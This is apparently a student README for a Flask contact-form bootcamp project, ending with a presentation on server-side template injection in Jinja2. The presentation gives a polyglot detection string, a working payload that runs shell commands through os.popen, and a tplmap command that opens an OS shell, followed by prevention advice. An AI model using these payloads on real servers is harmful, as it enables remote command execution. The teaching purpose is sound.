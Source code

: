 # bc_python_flask_form
BeCode Python - Flask Form Module

## Project

### Length

- 1 day to learn about flask
- 4 days to develop the project

### Skills

- Backend: Python Programming (initiation to logical structures)
- Validation and Sanitazation of a form
- Implementing POST and GET requests
- Implementing templates with Jinja

### Situation

The company "Hackers Poulette" is selling DIY kits and accessories for Raspberry Pi's, they want to implement a form for technical support.

Your mission is to develop a python script, showing a contact form and handling its use (sanitazation, validation, submit and feedback)

## Rules

### Performance criteria

- If there is an error in the user input, return the form with valid fields still filled.
- Show the field errors near the field in question.
- The form should sanitize and have server side validation.
- If the sanitazation and validation are ok, a "Thank you for your message" page should show with a run-down of all the information the user input.
- Implement antispam and honeypots
- **Required fields**:
    - Full name
    - Email
    - Country (list)
    - Message
    - Gender (radio box)
    - Subject (Repair, Order, Other)
- All fields are required except "Subject", which will default to "Other" value if not entered


### Goals

- Presentation: architechture client/server
- Sanitazation: neutralize all malicious code (script tags)
- Validation: required fields + valid email
- Confirmation: feedback when message sent
- NO JS OR CSS


### End goals

At the end of the project, the following skills should be acquired:

- Explain the difference betwenn a POST and GET request
- Avoid XSS attacks
- Avoid SSTI attacks
- Use a micro framework
- Deploy an app


## Running the project

Navigate to the desired version (v1 or v2)

v1 is a barebones simple form with minimal features

v2 is integrated with WTForms

```sh
flask run
```

Navigate to the url the terminal gives you (localhost:5000), you can see an example message already displayed.

Navigate to "Create" and create a message.


## Presentation

### Group

Our group consists of myself, [Gokhan](#), [Gustavo](#) and [Mitu](#).

### Subject

We were tasked with the presentation of the SSTI aspect of the project.

### SSTI

Server Side Template Injection, or SSTI is a <ins>template injection attack</ins>.

Templates are files a server uses to render an HTML page and populate it with dynamic data.

Injection attacks are a type of attacks that inject malicious code into your page, usually via form fields and/or urls.

### Detection Phase

As with most attacks, the first step is to figure out wether the target page is vulnerable, for this we will try to inject some logic operations into a field.

Let's use a string that tests most of the common templates, called a polyglot payload.

```${{<%[%'"}}%\.```

If the next step in the form returns an error or raises an exception, the app is vulnerable.

### Identification Phase

Next we need to identify what back-end is running, for this we can decompose the polyglot statement and start injecting specific server language payloads.

![](presentation_img/0_pJf0zn5ChHY9X8sF-1-png-1.png)

After you've identified the backend running on the target, you can start documenting yourself on the possible sandbox-escaping mechanisms and enter the exploitation phase.

### Exploitation Phase
Since the project is in Jinja2, we will take it as an example.

Python being an Object Oriented Programming language, it gives us access to some built-in methods that we could use to exploit the system, such as `__init__`

If we execute this snippet;

```sh
{{ "hello".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}
```
it will run `ls` on the servers filesystem.

To explain what's happening;

![](presentation_img/ssti2.png)

1. Returns the class for the "hello" string, which givse us `<class 'str'>`
2. Returns the base class (parent class that the 'str' class inherits from), it outputs `<class 'object'>`
3. Returns all the child classes inheriting from the 'object' class, which is a list `[<class 'type'>, <class 'weakref'>, ....etc`
4. Returns the class that is located at the index 182, being `<class 'warnings.catch_warnings'>`. We chose this class because it imports the 'sys' module, and from that we can reach the 'os' module.
5. The `__init__` constructor is called and then `__globals__` which returns a dictionary that hold the functions global variables, in this case we need them only for the 'sys' module. Output is `<module 'sys' (built-in)>`
6. 'sys' has many modules built-in, we are only interested in the 'os' one. Outputs `<module 'os' from '/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/os.py'>`
7. Any method in the 'os' module can now be invoked, we'll execule `ls` using [popen](https://docs.python.org/3/library/os.html#os.popen) and read the output.

### tplmap
A tool called [tplmap](https://github.com/epinna/tplmap) can be used to help with SSTI attacks.

Once installed, simply run:
```sh
python tplmap.py -u "http://127.0.0.1:5000/?name" --os-shell
```

### Prevention

As for prevention, it's quite straight forward since the attack relies only on your server not being set up proprely and/or accepting dangerous inputs.

<ins>Sanitization</ins>: Input sanitization is a cybersecurity measure of checking, cleaning, and filtering data inputs from users, APIs, and web services of any unwanted characters and strings to prevent the injection of harmful codes into the system.

Flask configures Jinja2 to sanitize output by default.

If your app is required to deal with risky characters (Text editor app, etc...), it is recommended to also Sandbox your environment.

<ins>Sandboxing</ins>: A sandbox is an isolated testing environment that enables users to run programs or open files without affecting the application, system or platform on which they run. 


## Ressources

[Install Flask](https://flask.palletsprojects.com/en/2.3.x/installation/)

[Web Forms in Flask](https://www.digitalocean.com/community/tutorials/how-to-use-web-forms-in-a-flask-application)

[WTForms](https://www.digitalocean.com/community/tutorials/how-to-use-and-validate-web-forms-with-flask-wtf)

[Flask](https://flask.palletsprojects.com/en/2.3.x/)

[Jinja](https://jinja.palletsprojects.com/en/3.1.x/)

[Pentester's Guide to Server Side Template Injections](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti)

[Secure Cookie's SSTI writeup](https://secure-cookie.io/attacks/ssti/)

[Secure Cookie's web lab](https://ssti.secure-cookie.io/)

[HackTricks SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)